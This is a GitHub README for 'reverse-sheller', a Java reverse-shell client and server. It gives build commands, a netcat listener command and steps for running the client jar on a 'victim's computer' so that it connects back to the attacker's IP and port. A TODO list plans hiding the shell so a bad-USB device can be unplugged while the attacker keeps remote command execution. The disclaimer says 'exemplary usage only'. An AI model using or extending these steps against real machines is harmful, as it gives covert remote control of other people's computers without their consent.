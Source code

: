 # reverse-sheller

## Build and execute this .jar on target machine with JDK11 or above to get a reverse shell from your host.

![Reverse shell terminal picture](imgs/reverse-shell-picture.jpg)

This repo is an example of reverse shell .jar client and server implementation.

## Table of Contents

* [Usage 💡](#usage)
* [About 💁📙](#about)
* [TODO 📝](#todo)
* [Author 👷](#author)

## Usage 💡 <a name="usage"></a>

0) Build the modules using:
-Unix cmd:
```bash
./gradlew build
```
- or Windows cmd:
```bat
.\gradlew.bat build
```
You should find executable .jar's afterwards in:
`src/client/build/libs`
`src/server/build/libs`

1) Open server waiting for client connection:
- using Netcat (check if installed):
```bash
nc -lvnp <port>
```
- or using the server .jar:
```bash
java -jar <filename.jar> <port>
```
- f.e.:
```bash
java -jar server-sheller-0.0.1.jar 4444
```
From this terminal you will be able to execute reverse shell commands:


2) Grab the `client.jar` from `./src/client/build/libs` and execute it on the victims computer using:
```bash
java -jar <filename.jar> <IP address> <port>
```
f.e.:
```bash
java -jar <filename.jar> 127.0.0.1 4444
```

And voilà!

(Requirement: JDK8 or higher needed to be installed on victim's computer, and JAVA_HOME variable needs to be 
pointing to working JDK instance)

## About 💁📙 <a name="about"></a>

This repo is an example of reverse shell .jar client and server implementation.
I redirected stdout and stdin to and from socket creating reverse shell. This repo is for exemplary usage only and
shouldn't be used for a real attack (which would be still mostly limited. This implementation so far doesn't allow
sudo and other advanced terminal functions. Only a simple cmd execution is provided).

It contains also a cookbook, how to build bad-usb and how to create your own listening server suing Cloud provider.

## TODO 📝 <a name="todo"></a>

Things that need to be done:

1) Add IaC for server deploy
2) Hide shell after execution, so that the bad-usb can be unplugged and the
process will stay connected allowing the attacker to execute code using reverse shell.
3) ...
...

![README ending picture](imgs/readme-ending-picture.jpg)

## Author 👷 <a name="author"></a>

Drop me a line at: contact.drzymala@gmail.com